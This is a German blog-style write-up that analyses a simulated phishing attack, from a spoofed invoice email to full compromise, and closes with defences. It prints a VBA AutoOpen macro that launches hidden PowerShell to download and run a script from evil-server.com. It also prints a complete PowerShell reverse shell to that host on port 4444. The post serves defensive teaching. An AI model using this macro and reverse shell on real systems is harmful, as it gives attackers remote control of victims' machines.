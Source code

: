 layout: post title: "Analyse eines Phishing-Angriffs: Vom E-Mail-Anhang zur Kompromittierung" date: 2025-09-02 10:00:00 +0200 categories: phishing analysis malware
In diesem Write-up analysieren wir einen simulierten Phishing-Angriff. Ziel ist es, die Techniken der Angreifer zu verstehen und effektive Gegenmaßnahmen aufzuzeigen.

Schritt 1: Die Köder-E-Mail
Alles beginnt mit einer E-Mail, die scheinbar von einem vertrauenswürdigen Dienstleister stammt. Sie enthält eine dringende Aufforderung, ein angehängtes Dokument zu überprüfen – in unserem Fall eine vermeintliche Rechnung im Word-Format.

Merkmale der Phishing-Mail:

Gefälschter Absender: Die E-Mail-Adresse sieht auf den ersten Blick legitim aus, aber bei genauerer Betrachtung (From: service@paypal-security.com statt service@paypal.com) wird die Fälschung deutlich.

Dringlichkeit: Formulierungen wie "sofortige Handlung erforderlich" erzeugen psychologischen Druck.

Verdächtiger Anhang: Ein .docm-Dokument, das Makros enthalten kann.

Schritt 2: Der Makro-Payload
Nach dem Öffnen des Word-Dokuments wird der Benutzer aufgefordert, "Inhalte zu aktivieren", um das Dokument korrekt anzuzeigen. Dies ist eine klassische Falle, um bösartige Makros auszuführen.

Das VBA-Makro im Inneren des Dokuments ist obfuskiert, aber nach der Deobfuskation enthüllt es seinen wahren Zweck:

Sub AutoOpen()
    Dim str As String
    str = "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -NoProfile "
    str = str + "-Command ""IEX (New-Object Net.WebClient).DownloadString('[http://evil-server.com/payload.ps1](http://evil-server.com/payload.ps1)')"""
    Shell str, vbHide
End Sub

Dieser Code startet einen versteckten PowerShell-Prozess, der ein weiteres Skript (payload.ps1) von einem vom Angreifer kontrollierten Server herunterlädt und ausführt.

Schritt 3: Die PowerShell-Payload
Das heruntergeladene Skript payload.ps1 stellt eine Reverse-Shell zum C2-Server (Command and Control) des Angreifers her.

$client = New-Object System.Net.Sockets.TCPClient("evil-server.com", 4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();

Sobald die Verbindung hergestellt ist, hat der Angreifer vollen Zugriff auf das kompromittierte System und kann Befehle aus der Ferne ausführen.

Gegenmaßnahmen und Fazit
Dieser Angriff hätte auf mehreren Ebenen verhindert werden können:

Benutzerschulung: Mitarbeiter müssen darauf trainiert werden, Phishing-Anzeichen zu erkennen und keine unbekannten Anhänge zu öffnen oder Makros zu aktivieren.

E-Mail-Filterung: Ein fortschrittlicher Spam- und Malware-Filter hätte die E-Mail wahrscheinlich blockiert.

Deaktivierung von Makros: Makros sollten per Gruppenrichtlinie standardmäßig für Dokumente aus dem Internet deaktiviert sein.

Endpoint Detection and Response (EDR): Eine EDR-Lösung hätte den verdächtigen PowerShell-Prozess erkannt und blockiert.

Die Analyse zeigt, wie eine einfache E-Mail eine vollständige Systemkompromittierung einleiten kann. Wachsamkeit und eine mehrschichtige Verteidigungsstrategie sind entscheidend.
